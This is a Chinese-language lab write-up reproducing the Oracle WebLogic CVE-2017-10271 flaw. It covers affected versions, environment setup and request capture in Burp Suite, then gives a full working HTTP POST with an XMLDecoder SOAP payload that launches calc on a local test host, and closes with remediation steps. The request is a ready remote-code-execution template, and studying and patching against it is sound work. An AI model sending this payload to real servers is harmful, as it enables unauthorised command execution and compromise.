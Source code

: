 # Weblogic(CVE-2017-10271)漏洞复现

> Oracle Fusion Middleware（Oracle融合中间件）是美国甲骨文（Oracle）公司的一套面向企业和云环境的业务创新平台。该平台提供了中间件、软件集合等功能。Oracle WebLogic Server是其中的一个适用于云环境和传统环境的应用服务器组件。
>
> Oracle WebLogic Server组件的WLS Security子组件存在安全漏洞。使用精心构造的xml数据可能造成任意代码执行，攻击者只需要发送精心构造的 HTTP 请求，就可以拿到目标服务器的权限，可以进行远程命令执行的攻击。

## 影响范围

- Oracle WebLogic Server 10.3.6.0.0版本
- Oracle WebLogic Server 12.1.3.0.0版本
- Oracle WebLogic Server 12.2.1.1.0版本

## 参考链接

- weblogic安装环境以及配置：https://blog.csdn.net/acmman/article/details/70093877
- 漏洞复现参考：https://www.jianshu.com/p/75c92754b34c

## 配置完成

- 配置完成会看到以下7001端口开放以及running的字段字样

![1556458864011](https://github.com/sunSUNQ/Java_learning/raw/master/image/1556458864011.png)

- 查看weblogic server的前端页面

![1556458830499](https://github.com/sunSUNQ/Java_learning/raw/master/image/1556458830499.png)



## 漏洞复现

- 找到存在漏洞的页面（192.168.189.1:7001/wls-wsat/CoordinatorPortType11）

![1556459270195](https://github.com/sunSUNQ/Java_learning/raw/master/image/1556459270195.png)

- 打开burpsuits然后刷新页面截取请求。

![1557198387511](https://github.com/sunSUNQ/Java_learning/raw/master/image/1557198387511.png)

- 将请求内容篡改，然后提交。就会看到浏览器执行了js代码，弹出了计算器。

![1556459795009](https://github.com/sunSUNQ/Java_learning/raw/master/image/1556459795009.png)



## 请求的主要内容

- 主要更改的部分是将GET请求更改为POST请求，然后将Upgrade-Insecure-Requests字段改为1，Content-type字段设置为text/xml，在后边加上shellcode的代码。

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 192.168.189.1:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ADMINCONSOLESESSION=ngtkLFCAykF1SWUVN9KHhdnDoBS-sX6kGc6SjEaB-fQaV6C83nu3!-1160453256
Connection: close
Content-type: text/xml
Content-Length: 482

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header> 
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.6.0" class="java.beans.XMLDecoder">
				<object class="java.lang.ProcessBuilder">  
					<array class="java.lang.String" length="1">  
						<void index="0"> 
							<string>calc</string>  
						</void> 
					</array>
					<void method="start"/>  
				</object> 
			</java>
		</work:WorkContext> 
	</soapenv:Header> 
	<soapenv:Body/> 
</soapenv:Envelope>
```



## 漏洞修复建议

- 删除war包。根据实际环境路径和业务需求，删除WebLogic程序下列war包及目录。代码示例如下。

```
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```

- 设置网络访问控制。配置 `http://ip_address:7001/wls-wsat` 的网络访问控制策略，禁止外网直接访问。
- 更新补丁。更新Oracle官方发布的相关补丁，下载链接为：http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
- 参考链接：https://helpcdn.aliyun.com/knowledge_detail/64233.html

